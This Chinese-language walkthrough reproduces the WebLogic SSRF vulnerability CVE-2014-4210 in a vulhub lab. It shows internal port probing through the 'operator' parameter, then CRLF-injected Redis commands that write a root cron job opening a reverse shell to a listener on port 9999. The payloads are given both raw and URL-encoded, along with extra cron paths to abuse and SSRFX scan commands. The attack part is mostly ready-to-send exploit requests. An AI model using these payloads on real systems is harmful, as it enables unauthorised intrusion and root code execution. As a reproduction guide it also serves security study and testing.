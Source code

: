 # Weblogic-SSRF漏洞-CVE-2014-4210

## 漏洞描述

Weblogic中存在一个SSRF漏洞，利用该漏洞可以发送任意HTTP请求，进而攻击内网中redis、fastcgi等脆弱组件，此漏洞可通过HTTP协议利用，未经身份验证的远程攻击者可利用此漏洞影响受影响组件的机密性

## 漏洞影响

> [!NOTE]
>
> Oracle WebLogic Server 10.0.2.0
>
> Oracle WebLogic Server 10.3.6.0

## 环境搭建

```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/ssrd
docker-compose up -d
```

访问 http://xxx.xxx.xxx.xxx:7001 正常即可

![](Weblogic-SSRF漏洞-CVE-2014-4210.assets/16273631630863302.jpg)

## 漏洞复现

出现漏洞的 URL为 : http://xxx.xxx.xxx.xxx:7001/uddiexplorer/SearchPublicRegistries.jsp

 ![](Weblogic-SSRF漏洞-CVE-2014-4210.assets/1627363163173981.jpg)

使用 payload 进行探测, 将探测的位置写在 operator参数中

> [!NOTE]
>
> 注意需要知道内网 IP

```
http://xxx.xxx.xxx.xxx:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://xxx.xxx.xxx.xxx:7001
```

通过查看报错内容来进行判断

 ![](Weblogic-SSRF漏洞-CVE-2014-4210.assets/1627363163270366.jpg)

存在的报错内容如图，关键字为 **404**, 例如把 **operator** 参数改成 **http://xxx.xxx.xxx.xxx:7000** 这样不存在的则报错内容如下图

 ![](Weblogic-SSRF漏洞-CVE-2014-4210.assets/16273631633749938.jpg)

通过这样的方法就可以探测内网的开放端口情况，例如内网中有一台主机 **IP：172.19.0.2** 开启了 **6379端口的redis服务**

![](Weblogic-SSRF漏洞-CVE-2014-4210.assets/16273631634702988.jpg)

如果访问的非http协议，则会返回**did not have a valid SOAP content-type**，这样通过错误的不同，即可探测内网状态。

Weblogic的SSRF有一个比较大的特点，其虽然是一个“GET”请求，但是我们可以通过传入`%0a%0d`来注入换行符，而某些服务（如redis）是通过换行符来分隔每条命令，也就说我们可以通过该SSRF攻击内网中的redis服务器。

发送三条redis命令，将弹shell脚本写入**/etc/crontab** 中：

```shell
set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```

接着再将请求进行 **url编码**, 

> [!NOTE]
>
> 注意，换行符是“\r\n”，也就是“%0D%0A”

```shell
test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fxxx.xxx.xxx.xxx%2F9999%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```

发送payload

```shell
http://xxx.xxx.xxx.xxx:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.19.0.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.19.0.3%2F9999%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```

发送后监听 **172.19.0.3 9999端口** 等待反弹shell

![](Weblogic-SSRF漏洞-CVE-2014-4210.assets/1627363163561151.jpg)

> [!NOTE]
>
> 最后补充一下，可进行利用的cron有如下几个地方：
>
> /etc/crontab 这个是肯定的
>
> /etc/cron.d/* 将任意文件写到该目录下，效果和crontab相同，格式也要和/etc/crontab相同。漏洞利用这个目录，可以做到不覆盖任何其他文件的情况进行弹shell。
>
> /var/spool/cron/root centos系统下root用户的cron文件
>
> /var/spool/cron/crontabs/root debian系统下root用户的cron文件

## 漏洞利用POC

[GitHub脚本 CVE-2014-4210+Redis未授权访问](https://github.com/NoneNotNull/SSRFX)

```shell
存活扫描:
python SSRFX.py --url http://example.com/uddiexplorer/SearchPublicRegistries.jsp --app weblogic --network 172.16.5.0/24 --type livedetect

端口扫描:
python SSRFX.py --url http://example.com/uddiexplorer/SearchPublicRegistries.jsp --app weblogic --network 172.16.5.0/24 --type portscan
```

![](Weblogic-SSRF漏洞-CVE-2014-4210.assets/16273631636607869.jpg)

## Goby && POC

> [!NOTE]
>
> Weblogic-SSRF漏洞-CVE-2014-4210

![](Weblogic-SSRF漏洞-CVE-2014-4210.assets/1627363163755918.jpg)